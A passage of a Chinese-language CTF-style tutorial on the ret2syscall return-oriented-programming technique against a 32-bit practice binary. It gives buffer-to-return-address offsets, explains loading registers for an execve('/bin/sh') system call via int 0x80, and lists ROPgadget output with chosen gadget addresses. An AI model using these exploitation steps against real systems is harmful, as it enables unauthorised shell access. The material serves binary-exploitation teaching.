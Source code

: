- v4地址：`0xffffd3dc`, ebp: `0xffffd448`,  v4 相对于 ebp 的偏移为 108，需要覆盖的返回地址相对于 v4 的偏移为 112



- 由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用

> **gadgets**: 以 `ret` 结尾的指令序列，通过这些指令序列，可修改某些地址的内容，以控制程序的执行流程



# 构造系统调用

- 简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用
- 比如说这里我们利用如下系统调用来获取 shell

```cpp
execve("/bin/sh", NULL, NULL);
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 `eax` 应该为 0xb   （查32bit的系统调用号）
- 第一个参数，即 `ebx` 应该指向 `/bin/sh` 的地址，其实执行 `sh` 的地址也可以。
- 第二个参数，即 `ecx` 应该为 0
- 第三个参数，即 `edx` 应该为 0



## ROPgadget: 逐步构造



```bash
$ ROPgadget --binary ret2syscall  --only 'pop|ret' | grep 'eax' # 寻找控制 eax 的 gadgets
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret  # 这个是将被利用的 gadget
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

- 以上都可以来控制EAX，选择`0x080bb196 : pop eax ; ret`

```bash
$ ROPgadget --binary ret2syscall  --only 'pop|ret' | grep 'ebx' # 寻找控制 ebx 的 gadgets
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret # 这里可以控制edx, ecx, ebx 三个
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
```